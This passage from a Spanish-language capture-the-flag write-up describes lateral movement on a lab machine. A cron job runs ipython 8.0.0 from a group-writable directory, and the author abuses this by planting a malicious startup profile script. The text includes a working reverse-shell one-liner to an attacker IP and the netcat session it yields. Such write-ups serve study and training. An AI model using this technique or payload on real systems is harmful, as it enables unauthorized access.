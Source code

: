 Si listamos los permisos del directorio, el grupo developer tiene capacidad de escritura en este directorio.
```bash
james_mason@shared:/$ ls -ld /opt/scripts_review
drwxrwx--- 2 root developer 4096 Jul 14  2022 /opt/scripts_review
james_mason@shared:/$ 
```
Si vemos el contenido del directorio no hay nada por lo que es un poco extraño.
```bash
james_mason@shared:/$ ls -la /opt/scripts_review
total 8
drwxrwx--- 2 root developer 4096 Jul 14  2022 .
drwxr-xr-x 3 root root      4096 Jul 14  2022 ..
james_mason@shared:/$
```
## Movimiento Lateral
Para enumerar todos los comandos que se esten ejecutando a nivel de sistema voy a estar utilizando [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1).

Si lo dejamos corriendo unos minutos veremos que hay una tarea cron que se ejecuta cada sierto tiempo.
![](/assets/img/shared/cron.png)

La tarea esta matando todos los processos de ipython y se esta metiendo al directorio /opt/scripts_review (en el cual tenemos capacidad de escritura) y desde este directorio esta ejecutando el ipython, veamos la version del ipython.
```bash
james_mason@shared:/$ ipython --version
8.0.0
```
Buscando vulnerabilidades de ipython me encontre con este [articulo](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x) en el cual explican que al momento de ejecutar el ipython podemos colar un comando.

Podemos comprobar que funciona ejecutando un whoami y metiendo el ouput a un archivo.
```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default && mkdir -m 777 profile_default/startup && echo "import os;os.system('whoami > /tmp/quiensoy')" > profile_default/startup/foo.py
```bash
james_mason@shared:/opt/scripts_review$ cat /tmp/quiensoy
dan_smith
```
Funciona por lo que podemos enviarnos una shell interactiva.
```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default && mkdir -m 777 profile_default/startup && echo "import os;os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.14/443 0>&1\"')" > profile_default/startup/foo.py
```
Despues de unos minutos nos llega la consola.
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.172] 33764
bash: cannot set terminal process group (3434): Inappropriate ioctl for device
bash: no job control in this shell
dan_smith@shared:/opt/scripts_review$ id
id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:/opt/scripts_review$ 
```